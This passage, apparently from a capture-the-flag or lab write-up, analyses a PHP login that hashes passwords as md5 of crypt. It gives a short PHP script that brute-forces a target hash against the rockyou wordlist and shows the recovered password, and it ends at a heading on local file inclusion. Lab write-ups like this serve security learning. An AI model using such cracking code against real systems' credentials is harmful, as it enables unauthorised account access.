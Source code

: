 ```php
                $_SESSION["loggedin"]=$email;
                header("location: home.php");
        }
<TRUNCATED>
```

So this first takes the password and then passes it to `crypt`, then `md5`. We know both the cleartext and hashed password of `elisa`, so we can reverse engineer this. The passing to `crypt` indicates why we cannot just crack this normally, because it's not just the MD5 of an encrypted password.&#x20;

We can just create a quick PHP script that brute forces for us:

```php
<?php 
$dict = fopen('/usr/share/wordlists/rockyou.txt','r');
while ($pwd = fgets($dict)){
	$correct = 'e626d51f8fbfd1124fdea88396c35d05';
	$hash = md5(crypt(trim($pwd), 'fa'));
	if ($correct == $hash){
		echo "Found: ". $pwd;
	}
}
fclose($dict);

$ php crack.php
Found: yl51pbx
```

This does the same thing as `index.php`, and it compares each hash to the correct one. We can then find the correct password. We can then login to the service.

### Printing LFI

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
